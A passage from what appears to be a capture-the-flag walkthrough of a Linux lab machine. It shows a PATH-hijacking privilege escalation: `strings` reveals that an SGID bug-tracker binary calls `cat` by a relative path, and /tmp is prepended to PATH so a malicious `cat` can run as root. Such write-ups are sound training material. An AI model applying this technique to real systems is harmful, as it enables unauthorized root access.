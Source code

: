 **SGID** is a special file permission that also applies to executable
files and enables other users to inherit the effective **GID** of file
group owner. Likewise, rather than the usual x which represents execute
permissions, you will see an **s** (to indicate **SGID**) special
permission for group user.

Let's run the **bugtracker binary** and see what it does.
<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"><img width="50%"  src="media/image70.png"></div> 




It seems to output a report based on the ID value provided. Let's use
strings to see how it does this.
``` shell 
robert@oopsie:/$  strings  /usr/bin/bugtracks
/lib64/ld-linux-x86-64.so.2
Libc.so.6
…..
…..
- - - - - - - - - - -
: EV Bug Tracker :
- - - - - - - - - - -
Provide Bug ID:
- - - - - - - - - - -
cat /root/reports/
;*3$”
GCC: (UBUNTU 7.4.0-1ubuntu1~18.04.1) 7.4.0

```






We see that it calls the “**cat”** binary using this relative path
instead of the absolute path.

Let have a look to current \$PATH
<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"><img width="50%"  src="media/image73.png"></div> 


By creating a malicious cat and by modifying the path to include the
current working directory, we should be able to abuse this
misconfiguration, and escalate our privileges to root. Let's add the “**tmp**” directory to PATH
``` shell 
robert@oopsie:/$  export PATH=/tmp:$PATH
robert@oopsie:/$  export PATH
/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/usr/games:/usr/local/games
```
